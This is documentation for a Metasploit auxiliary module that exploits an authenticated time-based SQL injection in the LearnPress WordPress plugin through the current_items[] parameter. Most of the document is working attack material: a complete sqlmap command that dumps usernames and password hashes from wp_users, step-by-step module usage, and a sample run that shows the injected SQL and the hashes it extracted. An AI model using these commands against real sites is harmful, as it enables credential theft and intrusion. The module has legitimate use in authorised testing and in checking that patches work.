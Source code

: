 ## Vulnerable Application

LearnPress, a learning management plugin for WordPress,
prior to 3.2.6.8 is affected by an authenticated SQL injection via the
`current_items[]` parameter of the `post-new.php` page.

The plugin can be downloaded [here](https://downloads.wordpress.org/plugin/learnpress.3.2.6.7.zip)

This module slightly replicates sqlmap running as:

```
sqlmap -u 'http://<IP>/wp-admin/post-new.php?post_type=lp_order' --cookie '<cookie>' --data "type=lp_course&context=order-items&context_id=32&term=+test&paged=1&lp-ajax=modal_search_items&current_items[]=1" -p "current_items[]" --technique T -T wp_users -C user_login,user_pass --dump --dbms mysql
```

## Verification Steps

1. Install the plugin, use defaults
2. Start msfconsole
3. Do: `use auxiliary/scanner/http/wp_learnpress_sqli`
4. Do: `set username <username>`
5. Do: `set password <password>`
6. Do: `run`
7. You should get the users and hashes returned.

## Options

### ACTION: List Users

This action lists `COUNT` users and password hashes.

## COUNT

If action `List Users` is selected (default), this is the number of users to enumerate.
The larger this list, the more time it will take.  Defaults to `3`.

### PASSWORD

The password for a user.

### USERNAME

The username for a user.

## Scenarios

### LearnPress 3.2.6.7 on Wordpress 5.4.4 on Ubuntu 20.04

```
resource (learnpress.rb)> use auxiliary/scanner/http/wp_learnpress_sqli
resource (learnpress.rb)> set rhosts 111.111.1.111
rhosts => 111.111.1.111
resource (learnpress.rb)> set username admin
username => admin
resource (learnpress.rb)> set password admin
password => admin
resource (learnpress.rb)> set verbose true
verbose => true
resource (learnpress.rb)> set count 3
count => 3
resource (learnpress.rb)> run
[*] Checking /wp-content/plugins/learnpress/readme.txt
[*] Found version 3.2.6.7 in the plugin
[+] Vulnerable version of LearnPress detected
[*] Enumerating Usernames and Password Hashes
[*] {SQLi} Executing (select group_concat(CKvFyxDg) from (select cast(concat_ws(';',ifnull(user_login,''),ifnull(user_pass,'')) as binary) CKvFyxDg from wp_users limit 3) wmnJO)
[*] {SQLi} Encoded to (select group_concat(CKvFyxDg) from (select cast(concat_ws(0x3b,ifnull(user_login,repeat(0xd5,0)),ifnull(user_pass,repeat(0x49,0))) as binary) CKvFyxDg from wp_users limit 3) wmnJO)
[*] {SQLi} Time-based injection: expecting output of length 124
[+] wp_users
========

 user_login  user_pass
 ----------  ---------
 admin       $P$BZlPX7NIx8MYpXokBW2AGsN7i.aUOt0
 admin2      $P$BNS2BGBTJmjIgV0nZWxAZtRfq1l19p1
 editor      $P$BdWSGpy/tzJomNCh30a67oJuBEcW0K/

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/wp_learnpress_sqli) > creds
Credentials
===========

host  origin         service  public  private                             realm  private_type        JtR Format
----  ------         -------  ------  -------                             -----  ------------        ----------
      111.111.1.111           admin   $P$BZlPX7NIx8MYpXokBW2AGsN7i.aUOt0         Nonreplayable hash  phpass
      111.111.1.111           editor  $P$BdWSGpy/tzJomNCh30a67oJuBEcW0K/         Nonreplayable hash  phpass
      111.111.1.111           admin2  $P$BNS2BGBTJmjIgV0nZWxAZtRfq1l19p1         Nonreplayable hash  phpass
```
